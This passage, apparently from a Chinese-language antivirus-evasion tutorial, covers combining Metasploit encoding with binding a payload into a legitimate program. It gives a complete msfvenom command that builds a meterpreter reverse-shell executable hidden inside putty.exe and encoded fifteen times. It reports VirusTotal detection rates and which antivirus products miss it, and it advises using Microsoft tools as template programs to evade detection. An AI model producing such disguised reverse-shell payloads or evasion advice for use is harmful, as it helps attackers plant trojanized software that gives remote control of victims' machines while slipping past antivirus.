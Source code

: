 在`virustotal.com`上查杀率为39/69

![193a02416b5bb747fe1feeeff181876b](images/2020.02-bypass-01/3.png)

另外，能否免杀也和你选的被捆绑exe有一定关系，可以选微软的一些工具作为模板exe程序。

## 7.4 msf自捆绑+编码(VT查杀率35/69)

操作便利★★★★

免杀效果★★

推荐指数★★

详细文章链接：[https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA](https://mp.weixin.qq.com/s/A0CZslLhCLOK_HgkHGcpEA)

将上面的编码和捆绑两种方法结合一下进行尝试

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e x86/shikata_ga_nai -x putty.exe  -i 15 -f exe -o payload4.exe
```
测试机器执行，发现火绒动态静态均能查杀，而360不会报病毒。

